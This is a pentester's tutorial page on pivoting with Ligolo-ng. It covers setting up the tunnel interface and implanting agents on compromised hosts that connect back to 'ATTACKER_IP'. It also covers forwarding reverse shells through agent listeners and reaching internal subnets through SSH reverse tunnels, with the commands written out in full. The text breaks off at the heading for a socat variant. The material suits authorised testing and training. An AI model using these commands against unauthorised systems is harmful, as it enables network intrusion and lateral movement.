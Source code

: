 ```yaml
---
description: >-
  Ligolo-ng is a simple, lightweight and fast tool that allows pentesters to
  establish tunnels from a reverse TCP/TLS connection using a tun interface
  (without the need of SOCKS).
---
```


# Use cases

Ligolo-Ng is a unique pivoting tool that allows you to create VPN-like tunnels, enabling direct interaction via target IP addresses instead of using socks proxies. With an interactive CLI interface, you can easily jump from one agent to another without any hassle.

Ligolo-Ng has two parts: a proxy that acts as a C2 interface to locate and select your targets, and also enables listeners on the target machine; and an agent that you implant on the target machine to initiate the VPN connection from the target machine to the attacking machine.

The agent does not require higher privileges on the target machine, so you can use a classic reverse shell to simplify any attacking methodology. With Ligolo-Ng, you can run any tool from your attacking machine against a target machine by closing the network gap between layers of networks.

https://github.com/tnpitsecurity/ligolo-ng

![[Pasted image 20240906172219.png]]

## Setting up Ligolo-ng

>[!INFO]
Before running Ligolo-ng, you must create a TUN Interface on the attacker PC so that ligolo can add routes to different sub networks. The idea is that when you have a sub network such as \`192.168.0.0/24\` that is inside the tartget network, you can provide the sub network IP address (which can only be reached from an internal network) to any tool you want.

### Creating a Tun Interface

```bash
# Before running ligolo-ng proxy, you must create a tuntap virtual interface
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
```

**ligolo-setup-script**
```bash
#!/bin/bash
me="$(whoami)"
echo "addling ligolo routes to user: $me"

echo "creating the ligolo tun interface"
sudo ip tuntap add user "$me" mode tun ligolo 
sudo ip link set ligolo up

echo "now adding routes $a $b"
a="172.16.0.0/24"
b="192.168.0.0/24"
c="10.10.0.0/24"
sudo ip route add "$a" dev ligolo
echo "done : $a"
sudo ip route add "$b" dev ligolo
echo "done : $b"
sudo ip route add "$c" dev ligolo
echo "done : $c"

echo "good luck! :)"
```

Once you have added the TUN Interface and the sub networks that you want to access from the attacker PC, you can now launch ligolo proxy on the attacker PC and the agent on an already compromised host in the internal network.

### Connecting to a Ligolo-Agent

```bash
# 1. On the attacking machine :
./proxy -laddr <ip>:5555 -selfcert

# 2. On each compromised host with the network that you want to pivot to
./agent -connect <ATTACKER_IP>:5555 -ignore-cert
```

### Agent Binding/Listening

> Agent Binding/listening on ligolo allows you to capture reverse shells from an internal network and forward it through the ligolo connection. You can then launch a netcat/pwncat-cs from the attacking machine seamlessly, give you the impression as if you were already in the target network.

## Ligolo-NG Pivoting Tutorials / Use Cases

### 1. Accessing the Target Network

Once a connection is establised on the Public Facing Server that is in the Target Network via a reverse shell, it is possible to access/enumerate or exploit any vulnerabilities against a different target in the same network trough ligolo (such as a DMZ) or a target that is in a neighbouring network (in the case of a non-segmented network). This allows an attcker to use their very own tools from the attacking machine.

>[!INFO]
>The following method works only when the Target Network has direct access to the attacking machine network, such as in a local network, via port forwarding or a VPN connection. More advanced pivoting techniques will be detailed below. If the attacking machine is in a NAT network, then, port forwarding should implemented.

```bash
# 1. Follow the ligolo setup process and start the ligolo proxy on the attacking machine 
./proxy -selfcert -laddr 0.0.0.0:9901

# 2. Add a ip route on the attacker machine that will route the target sub network via the ligolo TUN interface
sudo ip route add 192.168.0.0/24 dev ligolo

# 3. Transfer the ligolo agent binary to the compromised target via wget/scp/pwncat-cs

# 4. Initiate a connection from the ligolo agent to the ligolo proxy
./agent -connect ATTACKER_IP:9901

# 5. On ligolo, select the agent that you have deployed on the compromised target (ligolo agent)

# 6. Once selected, type : 
start

# This will now route the sub network 192.168.0.0 via the ligolo TUN interface and through the ligolo tunnel
# Allowing you to use any tool from the attacking maching against the new target machine
```

![image](https://user-images.githubusercontent.com/90450439/221353322-0abc5b8e-01dd-491a-b3f7-0a3b050393ac.png)

### 1.1 Forwarding a reverse shell from the Target Network

Using the Ligolo's Agent Binding/Listening feature, it is possible to recieve a reverse shell connection from a target (in the Target Network) that does not have direct access to the attacking machine (ie. an internet/WAN access). An agent in a compromised server that can communicate with the target can also act as a listner, thus allowing to forward reverse shells through the ligolo tunnel back to the attacking machine.

```bash
# 1. Establish an agent in the Public Facing server via ligolo agent

# 2. On the ligolo proxy (on the attacking machine), select the agent

# 3. Provide the following command
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:8899 --tcp

# 4. Launch netcat/pwncat-cs on the attacker machine to recieve the reverse shell

# Flags : --addr 0.0.0.0:1234 (the listener IP and port on the compromised server)
# Flags : --to 127.0.0.1:8899 (the netcat/pwncat-cs listner on the attackers machine)
```

>[!INFO]
>In the following example, The reverse shell is initiated from the machine 192.168.0.10 in the target network that do not have direct access to the Attacker machine but to the Public Facing Server. When configuring the reverse shell, the connection must be directed to the Public Facing Server's IP address as it is were the ligolo agent will start it's listener that was initiated via listener_add.

![image](https://user-images.githubusercontent.com/90450439/221354631-dbcb392f-af06-49d8-a63c-c5c03201c2cd.png)

### 1.2. Accessing the Internal Network

It is also possible to implant ligolo agents into deeper levels of the network in an organization inorder to compromise additional servers/devices. This follows the simmilar steps that were described for the Public Facing Server. However, this requires once again a reverse shell in the Internal Network or other sorts of foothold as a low privileged user in the internal network.

```bash
# 2. Add a ip route on the attacker machine that will route the target sub network via the ligolo TUN interface
sudo ip route add 10.10.0.0/24 dev ligolo

# 3. Transfer the ligolo agent binary to the compromised target via wget/scp/pwncat-cs

# 4. Initiate a connection from the ligolo agent to the ligolo proxy
./agent -connect <ATTACKER_IP>:9901

# 5. On ligolo, select the agent that you have deployed on the compromised target (ligolo agent)

# 6. Once selected, type : 
start

# This will now route the sub network 10.10.0.0 via the ligolo TUN interface and through the ligolo tunnel
# Allowing you to use any tool from the attacking maching against the new target machine
```

![image](https://user-images.githubusercontent.com/90450439/224545307-05571c12-31a9-41b7-b8cc-8b4365336e77.png)

### 2. Pivoting Ligolo-Ng with SSH access

In the case where the Target Network as well as the Internal Network has no possibility to contact the attacking machine but via a SSH connection, it is possible to initiate a connection from a ligolo agent implanted in the Public Facing Server via a SSH Reverse tunnel.

To do this, you will first have to initiate a Reverse SSH Connection. This is mainly because the ligolo proxy always listens to connections that are first initiated by the ligolo agent. A reverse ssh connection will allow us to open a port within the Public Facing Server and whatever that connects to that perticular port will then be tunnled trough the SSH connection.

```bash
# Initiate a Reverse ssh connection to the target server

ssh -R 7878:127.0.0.1:1337 user@target_server_ip
```

![image](https://user-images.githubusercontent.com/90450439/224557695-01ad05f3-a9ca-4456-ac94-246f2b3f5228.png)

Once the ssh tunnel is established, now you can transfer the ligolo agent and run the ligolo agent from the target server, simmilar to the steps shown above..

>[!INFO]
>The following method allows only a single ligolo agent connection. Due to the nature of the port mapping that is provided in the SSH reverse connection, once a ligolo agent "occupies" a port, it is not possible to use another ligolo agent on the same port.

```bash
# On the attacking machine 
./proxy -selfcert -laddr 127.0.0.1:1337

# On the target machine 
./agent -connect 127.0.0.1:7878 -ignore-cert
```

![image](https://user-images.githubusercontent.com/90450439/224558041-d257541d-a8f5-4fdd-9450-e4ef64ae4489.png)

### 2.1 Pivoting Ligolo-Ng with SSH access + SOCAT

In order to avoid initiating multiple SSH connections per ligolo agent connection, you can tunnel these connections through a single SSH connection. To achieve this, we will be using the tool socat.